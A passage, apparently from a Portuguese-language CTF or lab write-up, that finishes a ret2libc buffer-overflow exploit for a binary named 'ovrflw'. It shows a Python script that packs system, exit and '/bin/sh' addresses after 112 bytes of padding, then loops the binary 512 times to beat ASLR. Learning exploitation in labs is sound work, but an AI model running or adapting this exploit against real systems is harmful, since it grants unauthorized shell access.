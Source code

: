 O endereço de `exit_add` pode ser qualquer coisa, tendo em vista depois da execução do `/bin/sh` tanto faz o que a aplicação faz

#### Finalização do exploit

O exploit está quase pronto, vamos ajustar ele agora

exploit.py
```
import struct

libc_base_addr = 0xb759e000
system_off = 0x00040310
arg_sh = 0x00162bac
exit_add = 0x42424242

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_add)
arg_addr = struct.pack("<I",libc_base_addr+arg_sh)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr
```

O que foi feito? Nós colocamos os endereços que system, binsh e exit, somados ao da base da libc, pq eles são carregados na libc... ficou confuso? Bom, acho que é isso

#### Montagem do loop

Agora, tendo em vista a ASLR estar ativada devemos realizar a montagem do exploit para relizar esse loop

exploit.py
```
import struct
from subprocess import call

libc_base_addr = 0xb759e000
system_off = 0x00040310
arg_sh = 0x00162bac
exit_add = 0x42424242

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_add)
arg_addr = struct.pack("<I",libc_base_addr+arg_sh)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr

i = 0
while (i < 512):
    print "Tentativa: %s" %i
    i += 1
    ret = call(["/usr/local/bin/ovrflw",buf])
```
